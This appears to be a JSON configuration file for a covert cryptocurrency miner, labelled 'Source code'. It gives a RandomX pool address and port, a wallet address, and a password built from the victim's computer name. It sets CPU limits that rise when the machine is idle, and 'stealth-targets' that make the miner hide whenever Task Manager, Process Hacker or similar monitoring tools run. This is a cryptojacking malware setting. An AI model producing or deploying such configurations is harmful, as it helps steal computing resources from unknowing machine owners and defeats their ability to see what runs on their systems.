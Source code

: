 {
    "algo": "rx/0",
    "pool": "192.248.189.11",
    "port": 443,
    "wallet": "47AXmqm3ys97CzVA6LwweC8Qwu86FNHacU9WEzGWAVn5CHfXCVcbcHL2xiDwuufsPXYf6VPPNCAGaaF5e4nsLE9gCPp4hBz",
    "password": "cpp-{COMPUTERNAME}",
    "nicehash": false,
    "ssltls": true,
    "max-cpu": 30,
    "idle-wait": 3,
    "idle-cpu": 90,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": false
}
